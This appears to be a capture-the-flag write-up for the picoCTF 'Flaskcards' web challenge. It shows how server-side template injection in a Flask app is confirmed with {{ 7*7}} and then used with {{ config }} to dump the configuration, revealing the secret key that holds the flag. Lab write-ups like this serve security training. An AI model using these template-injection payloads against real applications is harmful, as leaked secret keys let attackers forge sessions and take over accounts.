 # Flaskcards - Web

We are given a webpage where we first register an account and then we have the ability to create cards and view those created cards. After trying some different input, and thinking about the challenge title we figured out this is a SSTI problem and that Flask is used as backend.

This can be confirmed by entering

> {{ 7*7}}

This gives us 49 so it is executed on the backend. Then we can input 
> {{ config }}

```<Config {'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'DEBUG': False, 'MAX_COOKIE_SIZE': 4093, 'TEMPLATES_AUTO_RELOAD': None, 'PREFERRED_URL_SCHEME': 'http', 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'SESSION_COOKIE_NAME': 'session', 'SQLALCHEMY_POOL_RECYCLE': None, 'SESSION_COOKIE_SAMESITE': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'SECRET_KEY': 'picoCTF{secret_keys_to_the_kingdom_e8a55760}', 'JSON_SORT_KEYS': True, 'SQLALCHEMY_POOL_SIZE': None, 'SERVER_NAME': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TESTING': False, 'SQLALCHEMY_MAX_OVERFLOW': None, 'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SQLALCHEMY_BINDS': None, 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'BOOTSTRAP_SERVE_LOCAL': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'JSONIFY_MIMETYPE': 'application/json', 'BOOTSTRAP_LOCAL_SUBDOMAIN': None, 'PROPAGATE_EXCEPTIONS': None, 'APPLICATION_ROOT': '/', 'MAX_CONTENT_LENGTH': None, 'ENV': 'production', 'EXPLAIN_TEMPLATE_LOADING': False, 'SESSION_COOKIE_HTTPONLY': True, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_DOMAIN': False, 'SQLALCHEMY_DATABASE_URI': 'sqlite://', 'BOOTSTRAP_CDN_FORCE_SSL': False, 'SQLALCHEMY_ECHO': False, 'TRAP_HTTP_EXCEPTIONS': False, 'SQLALCHEMY_POOL_TIMEOUT': None, 'BOOTSTRAP_USE_MINIFIED': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SESSION_COOKIE_PATH': None}>
```

Boom! We have the flag: picoCTF{secret_keys_to_the_kingdom_e8a55760}